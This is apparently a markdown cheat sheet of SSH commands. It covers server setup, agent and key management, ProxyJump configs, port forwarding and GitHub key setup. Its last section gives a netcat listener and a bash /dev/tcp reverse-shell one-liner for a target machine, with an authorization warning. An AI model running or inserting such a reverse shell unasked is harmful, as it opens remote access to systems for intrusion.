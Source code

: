 # SSH

## Enable SSH Server (Debian)

```
sudo apt install openssh-server
sudo systemctl enable ssh
sudo systemctl start ssh
sudo ufw allow ssh
sudo ufw enable
```

## SSH Agent
List ssh-agent keys
`ssh-add -l`

Add SSH Key to the ssh-agent
`ssh-add </path/to/your/private/key>`

Remove Key from the ssh-agent
`ssh-add -d </path/to/your/private/key>`

Start the ssh-agent
`eval "$(ssh-agent -s)"`

Restart the ssh-agent
`eval "$(ssh-agent -k)"  # Kill the agent`
`eval "$(ssh-agent)"     # Start a fresh instance`

## Keys
Generate new key
`ssh-keygen -t rsa -b 4096 -C <email@domain.com>` 

Generate new key using ed25519 (best practice) `ssh-keygen -t ed25519 -C <your_email@example.com>`

Copy key to remote
`ssh-copy-id -i $<key_path> <user>@<hostname/ip>`

Use a specific key during connection
`ssh -o "IdentitiesOnly=yes" -i <key_path> -p <port> <user><hostname/ip>`

Use **only** password authentication (if is is allowed)
`ssh -o PubkeyAuthentication=no user>@<hostname/ip>`

## Proxy Jump
SSH proxy jump
`ssh -J <user-proxy>@<domain/ip-proxy> <user-target>@<domai/ip-target>`

SSh proxy jump on user configuration (~/.ssh/config)
```
Host <proxy-host-name>
  HostName <IP-address>
  User <user-name>                  # Not important
  Port <specify-port-number-here>   # Not important
  IdentityFile ~/.ssh/<file1>       # Not important

### The Remote Host
Host <private-server-name>
  HostName <IP-address>             # Not important
  User <user-name>                  # Not important
  Port <specify-port-number-here>   # Not important
  IdentityFile ~/.ssh/<file2>       # Not important
  ProxyJump <proxy-host-name>
```

## Configuration
Check SSH Configuration
`ssh -G <hostname>`

Global configuration filepath
`/etc/ssh/ssh_config`

## Other connections
Remote Command Execution
`ssh <user>@<hostname/ip> "<command>"`

Local Port Forwarding (Forward a port from the remote machine to your local machine)
`ssh -L <local_port>:<remote_host>:<remote_port> -N <user>@<hostname/ip>` # Use -N if you don’t need a shell session

Remote Port Forwarding: (Forward a port from your local machine to a remote machine)
`ssh -R <remote_port>:<local_host>:<local_port> -N <user>@<hostname/ip>` # Use -N if you don’t need a shell session

Create an SSH SOCKS proxy for dynamic port forwarding
`ssh -D <local_port> <user>@<hostname>`

## Use SSH key on Github

1. Run `ssh-keygen -t ed25519 -C "your_email@example.com"`
2. `cat ~/.ssh/<keyname>.pub` and copy your key
3. Paste it as is on your github account as an authentication key
4. Add on your `~/.ssh/config` this:
```
Host github.com
  HostName github.com
  User git
  IdentityFile ~/.ssh/<keyname>
  IdentitiesOnly yes
  IdentityAgent none
  AddKeysToAgent no
```
5. Evaluate that it is working by running `ssh -T git@github.com`
6. For security run `chmod 400 ~/.ssh/<keyname>`
7. If you have repositories that have been cloned using https, do the following
```
# Inspect remotes
git remote -v

# Update
git remote set-url origin git@github.com:Username/repository-name.git

# Inspect remotes again
```

## Reverse shell 

Listener (the machine that wants to establish the ssh connection)
```bash
nc -lvnp <port>
```

From the target machine run one of the commands based on the use case.

1. Terminal
```bash
/bin/bash -i >& /dev/tcp/<ip/hostname>/<port> 0>&1
```

> [!WARNING]
> Use reverse shell only on systems that you have explicit authorization to access.